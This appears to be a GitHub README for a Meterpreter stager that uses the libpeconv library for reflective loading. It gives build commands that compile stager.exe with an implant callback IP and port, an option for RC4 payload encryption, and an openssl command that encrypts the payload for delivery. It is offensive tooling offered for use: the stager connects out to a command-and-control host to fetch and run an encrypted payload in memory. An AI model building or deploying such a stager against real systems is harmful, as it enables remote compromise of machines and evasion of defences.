 # stager_libpeconv
A basic meterpreter protocol stager using the libpeconv library by hasherezade for reflective loading

Don't forget to include submodules (actually libpeconv) while checking out:

```
git clone --recurse-submodules https://github.com/tothi/stager_libpeconv
```

Compiling should work on Linux (with [mingw-w64](https://www.mingw-w64.org/)
cross-compiler toolset installed) using the provided [Makefile](./Makefile)
(config params for make are mandatory):

```
make stager IMPLANT_IP=192.168.56.1 IMPLANT_PORT=8889
```

The stager.exe binary output is built into the [dist](./dist) folder.

For basic RC4 payload encryption support, compile by configuring the key:

```
make stager IMPLANT_IP=192.168.56.1 IMPLANT_PORT=8889 RC4_KEY=1234567890123456
```

Currently only 16-char keys are supported (still no built-in padding).

For generating encrypted payload, you may use openssl (1.1):

```
openssl-1.1 enc -rc4 -in payload.exe -K `echo -n '1234567890123456' | xxd -p` -nosalt -out payload.bin
```
